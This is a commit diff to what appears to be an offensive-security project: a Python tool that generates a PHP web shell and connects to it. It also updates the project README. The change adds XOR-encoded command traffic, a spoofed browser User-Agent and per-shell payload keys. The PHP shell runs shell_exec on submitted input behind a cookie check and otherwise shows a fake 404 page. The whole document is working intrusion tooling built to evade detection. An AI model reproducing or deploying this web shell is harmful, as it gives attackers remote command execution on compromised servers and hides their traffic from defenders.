

Updates
Add XOR encryption for the shell traffic, and some QOL fixes,

diff --git a/beta.py b/beta.py
@@ -11,10 +11,11 @@ import sys
 def parse_options():
 
 	formatter = lambda prog: argparse.HelpFormatter(prog,max_help_position=50)
-	parser = argparse.ArgumentParser(description='An Epic Web Shell - cwinfosec', formatter_class=formatter)
+	parser = argparse.ArgumentParser(description='Web Shell', formatter_class=formatter)
 	parser.add_argument("-c", "--connect", dest="connect", type=str, help="URL of web shell to connect to", required=False)
 	parser.add_argument("-k", "--key", dest="key", type=str, help="Auth key for the generated web shell", required=False)
 	parser.add_argument("-g", "--generate", dest="generate", help="Generate new key and webshell", action="store_true", required=False)
+	parser.add_argument("-pk", "--payload-key", dest="pkey", help="Payload key for webshell", required=False)
 	args = parser.parse_args()
 	return args
 
@@ -24,12 +25,14 @@ def generate_key(seed):
 	key = b64encode(bcrypt.hashpw(str(seed).encode("ascii"), salt))
 	return key.decode()
 
-def generate_shell(key):
+def generate_shell(key, gen_pkey):
 
 	shell = ['<?php',
+		'$payload_key = "%s";' % gen_pkey,
 		'if ($_COOKIE["session"] === "%s") {' % key,
-		'  $command = file_get_contents("php://input");',
-		'  echo shell_exec(base64_decode($command));',
+		'  $payload = file_get_contents("php://input");',
+		'  $command = base64_decode($payload) ^ $payload_key;',
+		'  echo shell_exec($command);',
 		'  } else {',
 		'    http_response_code(404);',
 		'    echo "<html><head>";',
@@ -50,7 +53,7 @@ def generate_shell(key):
 		file.close()
 	print(colored('[+] ', "green") + 'Created new shell.php file.')
 
-def connect(url, hmac):
+def connect(url, hmac, payload_key):
 
 	while True:
 
@@ -62,25 +65,44 @@ def connect(url, hmac):
 				os.system('clear')
 			except:
 				os.system('cls')
-		r = requests.post(url, data=b64encode(cmd.encode("ascii")), headers={'Cookie':'session=' + hmac}, verify=False)
+
+		s1 = cmd
+		s2 = payload_key
+
+		custom_headers = {
+			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
+			'Cookie':'session=' + hmac,
+		}
+
+		r = requests.post(url, data=b64encode(xor_function(s1,s2).encode("ascii")), headers=custom_headers, verify=False)
 		print(r.text)
+
+def xor_function(s1, s2):
+
+	return "".join([chr(ord(c1) ^ ord(c2)) for (c1,c2) in zip(s1,s2)])
 
 def main(args):
 
+
+	chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ01234567890!@#$%^&*()-=_+[]{};":,./<>?'
+	seed = ''.join(random.choice(chars) for i in range(50))
+	gen_pkey = ''.join(random.choice(chars) for i in range(8))
+
 	if args.connect:
 
+		payload_key = args.pkey
 		url = args.connect
 		hmac = args.key
-		connect(url, hmac)
+		print(colored('[+] ', "blue") + 'Connecting to %s\nUsing HMAC: %s\nUsing Payload Key: %s\n' % (url,hmac,payload_key))
+		connect(url, hmac, payload_key)
 
 	if args.generate:
 
-		chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ01234567890!@#$%^&*()-=_+[]{};":,./<>?'
-		seed = ''.join(random.choice(chars) for i in range(50))
 		print(colored('[+] ', 'blue') + 'Seed: ' + seed)
+		print(colored('[+] ', 'blue') + 'Payload Key: ' + gen_pkey)
 		key = generate_key(seed)
 		print(colored('[+] ', 'blue') + 'Key: %s' % key)
-		generate_shell(key)
+		generate_shell(key, gen_pkey)
 
 if __name__ in "__main__":
 

diff --git a/README.md b/README.md
@@ -9,6 +9,6 @@ Use the `-g` option to generate a web shell and an accompanying authentication k
 
 ![screenshot](/images/shell.PNG)
 
-Alternatively, if you have the generated shell loaded onto a server, you can interact with it by specifying the `--connect <URL>` and `-k KEY` arguments. This shell supports terminal clearing via the "clear" command. There may be some risks with using `os.system` to do this, but w/e. Baby project, don't care at the moment. 
+Alternatively, if you have the generated shell loaded onto a server, you can interact with it by specifying the `--connect <URL>`, `-k KEY`, and `-pk PAYLOAD_KEY` arguments. If you have trouble connecting, try wrapping the keys in double-quotes on your terminal. This shell supports terminal clearing via the "clear" command. There may be some risks with using `os.system` to do this, but w/e. Baby project, don't care at the moment. 
 
-Payload traffic is base64 encoded. I will try to make this beefier as I get better with PHP. Enjoy!
+Payload traffic is base64 & XOR encoded. The session HMAC and XOR schemes are polymorphic, and the values will change everytime you generate a shell. I will try to make this beefier as I get better with PHP. Enjoy!
